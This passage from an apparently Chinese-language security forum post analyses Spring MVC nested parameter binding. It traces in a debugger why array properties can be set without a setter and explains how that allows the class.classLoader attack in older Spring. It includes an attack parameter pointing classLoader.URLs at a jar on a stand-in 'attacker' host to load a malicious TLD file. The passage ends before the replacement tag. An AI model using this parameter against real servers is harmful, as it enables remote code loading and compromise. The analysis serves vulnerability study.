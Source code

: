     然后访问（注意\[\]要编码）：
    
    /test?id=1&amp;name=test&amp;class.classLoader=org.apache.catalina.loader.StandardClassLoader&amp;class=java.lang.String&amp;number=123&amp;user.name=moonflower&amp;names\[0\]=33333
    
    对照一下输出的内容：
    
    ![image-20220408220253963](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3ad57819af72030029f2ea0d063724d6c88cf78b.png)
    
    Id 和 name 有 get 和 set 方法，可以正常获取；number 为空，因为没有 set 方法；class 和 classLoader 也都没有 set 方法所有赋值失败。但出乎意料的是 names 没有 get 方法但赋值成功了（33333），这时需要打个断点调一下了。
    
    前半部分的和前面调试参数绑定的流程相同，直到跟到 getLocalPropertyHandler 中，跟进看看内部的具体实现。
    
    ![image-20220408221939906](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-7f144563189991a9486429e0298aaecf7a0ebf07.png)
    
    这里最后调用的是 CachedIntrospectionResults.getPropertyDescriptor 这个方法（最后发现图贴错了，重新补了一张，name 换了但不是重点）
    
    ![image-20220409205948940](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-662906554134e873dc67704b9599cfac1aa346d9.png)
    
    在其中循环调用 buildGenericTypeAwarePropertyDescriptor，查找每个属性的 getter 和 setter，
    
    ![image-20220409103442420](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d519eb87ebd65dc159d76dd4e492e3c8606d0599.png)
    
    ![image-20220409103606480](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9bc22356b4081ee017d8a3887c54fd5092cb4554.png)
    
    按照之前调试的流程，一直跟进到 setPropertyValue，参数的绑定在这里面完成
    
    ![image-20220409100130081](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c767f7432763372a43029bdd10f22f503523eaac.png)
    
    在前面的 CachedIntrospectionResults.getPropertyDescriptor 中拿到了这个属性的 getter 和 setter，本应该判断是否有 setter 方法（isWriteable），然后进行参数的绑定，
    
    ![image-20220409101109119](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5d03a865024b3e292bac2d459693e2c7c4584403.png)
    
    但是在验证 isWriteable 之前，会先判断是不是数组类型，如果是的话就直接调用 Array.set 在底层赋值。
    
    ![image-20220409101236379](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-7286b4b4ca0d4bc2dd45cb2b7a6a340c17cae532.png)
    
    目前可公开的情报：
    
    1.SpringMVC 支持嵌套的参数绑定  
    2.JavaBean 底层实现的时候能访问到 Object.class  
    3.class 这个属性存在对应的 getter  
    4.可以在没有 setter 的情况下可以修改数组变量的值
    
    在 tomcat 中的 WebappLoader 类继承了 URLClassLoader ，URLClassLoader 有一个方法 getURLs，可以返回一个数组。而 getURLs 方法在 TldLocationsCache 类（处理页面的 tld 标签库）中被调用，可以从 URL 数组中指定的目录去获取 tld 文件（运行远程获取）。
    
    结合以上信息，在 CVE-2010-1622 中，攻击者可以控制 class.classLoader.URLs\[\]，提交参数：
    
    class.classLoader.URLs\[0\]=jar:<http://attacker/spring-exploit.jar>!/
    
    接着在渲染 jsp 页面的时候，Spring 会通过 Jasper 中的 TldLocationsCache 类从 WebappClassLoader 中读取 url 参数并用来解析 TLD 文件，其中 spring-exploit.jar里面包含修改后的 spring-form.tld，而解析 tld 的过程中允许使用 jsp 语法，那么恶意的 spring-form.tld 可以在原 /META-INF/spring-form.tld 中替换 input tag：
    